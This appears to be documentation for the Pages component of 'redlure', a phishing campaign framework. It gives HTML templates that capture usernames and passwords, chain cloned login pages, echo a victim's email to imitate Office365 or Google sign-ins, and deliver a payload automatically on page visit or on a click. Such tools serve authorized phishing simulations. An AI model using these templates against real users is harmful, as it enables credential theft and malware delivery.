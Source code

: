 # Pages
The pages component is where you can store HTML templates to serve with your phishing campaigns. redlure lets you chain up to 4 templates together in 1 campaign (through the use of buttons or your mechanism of choice).

You can attempt to clone an existing webpage or build your own template in the [CodeMirror](https://codemirror.net/) editor.
![](../gitbook/images/newpage.png)

# IMPORTANT
Templates have three requirements to function the way you want, assuming you are collecting form data:
1. The HTML `form` tag must have the `method` attribute set to `POST`
2. The HTML `form` tag must have the `action` attribute set to `{{ next_url }}`
3. `Input` fields you want to capture must have the `name` attribute set.
4. The HTML form must include a button that submits the form (i.e. `input` tag with `type="submit"`)

Example:
```html
<form action="{{ next_url }}" method="POST">
    <input class="input-box" name="username" type="text">
    <input class="input-box" name="password" type="password"> 
    <input class="submit" type="submit" value="Sign In">
</form>
```

## Chaining Templates
The `{{ next_url }}` variable is used within page templates to direct visitors to the next phishing template in sequence. You'll likely use this most with form submissions, like the above, but two other quick examples are standalone buttons or a rudimentary redirector.

```html
<html>
    <body>
        Loading...
        <meta http-equiv="refresh" content="1; url={{ next_url }}">
    </body>
</html>
```

```html
<form action="{{ next_url }}" method="GET">
    <button class="submit" type="submit">Click to Enter!</button>
</form>
```

# Variable (Username/Email) Passthrough
To mimic multi-page logins that display your username on the password form page (think Office365, Google), you can use to following variables within your HTML. These __*cannot*__ be used on your first landing page in a sequence; a form with an input field named one of these values must be submitted on the prior page.
- {%raw%}`{{ loginfmt }}`{%endraw%} - Will display value from the prior page's form input where `name="loginfmt"`
- {%raw%}`{{ email }}`{%endraw%} - Will display value from the prior page's form input where `name="email"`
- {%raw%}`{{ username }}`{%endraw%} - Will display value from the prior page's form input where `name="username"`

# Serving a payload
When you configure a campaign you can optionally select a payload you've uploaded to your server/worker and set a URL path for it to be served at. A link to the payload route can be sent directly via email or it can be referenced as a variable in your HTML page template, in 1 of 2 ways:
1. Automatically download file when your page is browsed to
2. Download the file when a button is pressed or another action is taken

## Auto Download on Page Visit
To drop a payload when a visitor hits your redlure page, add the `{{ serve_payload }}` to your HTML page template. Example:
```html
<!DOCTYPE html>
<html>
<head></head>
<body>

     <!-- SNIPPED HTML CONTENT -->

</body>

{{ serve_payload }}

</html>
```
 When your page is rendered the variable with be replaced with:
 `<meta http-equiv="refresh" content="0; url=http[s]://yourdomain.com/custom/payload/path?id=[visitor_id]">`
This could be done by other means, such as directly inserting the `<meta>` tag in the page template, but I've found this will usually throw WYSIWYG editors for a loop when previewing your page.
## Download on Action
If you want to place your payload download behind a click using a button or hyperlink, you can use the `{{ payload_url }}` within your page template. Example:
```html
<p><a href="{{ payload_url }}" style="cursor: pointer;">Click here</a> if the download does not begin.</p>

<!-- OR -->

<form action="{{ payload_url }}" method="GET">
    <button class="submit" type="submit">Download</button>
</form>
```



